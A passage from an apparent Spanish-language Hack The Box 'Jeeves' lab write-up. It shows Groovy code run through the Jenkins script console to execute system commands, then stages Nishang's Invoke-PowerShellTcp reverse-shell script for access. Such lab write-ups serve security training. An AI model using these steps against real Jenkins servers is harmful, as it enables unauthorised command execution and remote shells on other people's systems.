 - [onekilo79.wordpress.com](https://onekilo79.wordpress.com/2016/03/31/jenkins-console-script-with-power/)
- [groovy-lang.gitlab.io](https://groovy-lang.gitlab.io/101-scripts/basico/command_local-en.html)

Por lo el ejecutar los siguiente ya tenemos ejecución de comando a nivel de sistema:

```groovy
cmd = "whoami"
cmd.execute().text
```

![""](/assets/images/htb-jeeves/jeeves-cmd.png)

Ahora debemos ingresar al sistema, por lo que buscamos el archivo `Invoke-PowerShellTcp` en nuestra máquina y lo copiamos a nuestro directorio de trabajo

```bash
❯ locate Invoke-PowerShellTcp
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```
